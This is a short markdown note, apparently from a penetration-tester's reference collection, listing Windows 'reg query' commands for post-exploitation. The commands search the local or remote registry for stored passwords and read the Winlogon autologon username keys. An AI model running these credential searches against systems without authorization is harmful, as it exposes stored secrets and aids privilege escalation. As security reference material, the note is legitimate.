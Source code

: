 # Living off the Land

Search Tag(s): #post-exploitation #enumeration-and-discovery #privilege-escalation #living-off-the-land #windows

```
C:\> reg query [\\<IP>] HKLM /f password /t REG_SZ /s

C:\> reg query [\\<IP>] HKCU /f password /t REG_SZ /s

C:\> reg query [\\<IP>] "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername [/reg:<32 | 64>]
```

---
## References

- [[Autologon|AutoLogin Registry]]